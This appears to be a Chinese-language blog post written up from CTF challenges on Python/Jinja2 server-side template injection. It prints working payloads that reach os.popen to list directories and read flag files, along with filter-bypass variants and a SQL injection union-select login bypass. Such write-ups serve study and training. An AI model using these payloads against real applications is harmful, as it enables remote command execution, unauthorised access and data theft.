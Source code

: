 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - Web
  - SSTI
---
```

# 最基础的概念
这道题没有任何限制，just讲一下基本步骤
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了） 
  
这道题什么都没有过滤  
  
ls的payload:
```
{% raw %}{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}{% endraw %}
```
注意，在基类中，os所在的`site._Printer`不一定是第几个，这个题是第71个罢了。subclass可以看到所有类，慢慢找  
  
而且名字也不一定叫`site._Printer`，但长得差不多，比如校赛中的就叫`_sitebuiltins._Printer`，关键字就这么几个  
  
每个指令的作用：
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
`ls`查看的是当前目录，`ls /`查看的是根目录  
最后用`'cat fl4g'`读取文件
# 过滤了_ \[] ‘’ “”
XCTF mine1_1    
如果只过滤`[]`的话，payload长这样：
```
{% raw %}{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read(){% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
# 过滤了{% raw %}{{{% endraw %}
两个大括号连着一起会被检测，但是一个大括号莫得事  
所以我们可以用`{% assign openTag = '{%' %}{{ openTag }}print()%}`来代替
# 过滤了. +  and神一样的注入点
首先是一个sql注入，提示`login as admin`（wechall？梦开始的地方？）  
  
用户名输入`admin`密码随意，会返回登录页面，用户名随便会500  
  
  当输入`admin' union select 1,2,3,4 --`时会返回登陆页面（再次吐槽我矿ctf，order by被过滤，而且只有到4才成功，这真是运气），证明闭合了sql查询，没有登录成功，说明验证不是下面这个形式的：`select * from table where username=? and password=?`
  
  之后猜到（没错，猜到，我矿ctf的传统）是分离验证并加了md5，并且密码字段是第三个  
  ```sql
  username=test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  ```
  登录成功，并看到了/info页面，改动info可以看到回显
  ![找到注入点](https://raw.githubusercontent.com/hideonsky/hideonsky.github.io/master/assets/images/SSTI/%E6%89%BE%E5%88%B0%E6%B3%A8%E5%85%A5%E7%82%B9.png)
  我们发现了两个可控的点，但是一个参数内同时出现`{% raw %}{}{% endraw %}`会被waf，所以我们把`{% raw %}{{% endraw %}`和`{% raw %}}{% endraw %}`分别放到两个参数里
  
  所以，真正的注入点是：
  ```sql
  {% raw %}username={{"test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  url后面改为/啥都行"}}  {% endraw %}
  ```
  注意这个双引号，因为`{% raw %}{{}}}{% endraw %}`中间会有别的内容影响，用`""`包起来会被认为是字符串，就不会影响注入了  
  
  所以我们注入也是在`"`和`{% raw %}}}{% endraw %}`之间构造payload，避开其他字符的影响
  
  字符拼接本来应该是`attr('__c'+'lass__')`,因为过滤了`+`，所以用`join`拼接，即`attr(("_","_","cla","ss","_","_")|join)`
  
  ls的payload：
  ```url
  {% raw %}"|attr(("_","_","cla","ss","_","_")|join)|attr(("_","_","ba","se","_","_")|join)|attr(("_","_","sub","cla","sses","_","_")|join)()|attr(("_","_","ge","titem","_","_")|join)(129)|attr(("_","_","in","it","_","_")|join)|attr(("_","_","glo","bals","_","_")|join)|attr(("_","_","ge","titem","_","_")|join)(("_","_","buil","tins","_","_")|join)|attr(("_","_","ge","titem","_","_")|join)(("e","val")|join)(("_","_","imp","ort","_","_")|join)(("o","s")|join)|attr(("po","pen")|join)(("l","s")|join)|attr(("re","ad")|join)()}}{% endraw %}
  ```
  cat的时候改成`"ca","t"," ","fl","ag"`即可，空格别忘了
# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天又用回了Jekyll  
  
这CTF打的，我渗透我自己  
解决办法{% assign openTag = '{%' %}
```
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
那么奇奇怪怪的问题又增加了  
我是怎么打出来`{{ openTag }} raw %}`而没有被执行呢
```
{% raw %}{% assign openTag = '{%' %}
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}{% endraw %}
```
打`{% raw %}{{ openTag }} raw %}{% endraw %}`的时候差点又忘了刚学的`{{ openTag }} raw %}`，吐了吐了
